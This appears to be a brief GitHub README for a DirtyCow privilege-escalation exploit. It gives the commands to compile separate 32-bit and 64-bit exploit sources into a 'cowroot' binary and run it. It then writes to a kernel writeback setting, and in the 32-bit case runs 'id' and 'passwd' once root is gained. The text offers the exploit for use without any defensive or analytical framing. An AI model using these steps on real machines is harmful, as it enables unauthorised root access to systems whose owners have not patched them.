 # DirtyCow
Dirtycow exploit for both 32 and 64-bit 

# Usage Example For 32 Bit

Compile -o = Output
* $ gcc dc32.c -o cowroot -pthread
Run
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs
* id
* passwd

# Usage Example For 64 Bit

* $ gcc dc64.c -o cowroot -pthread
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs
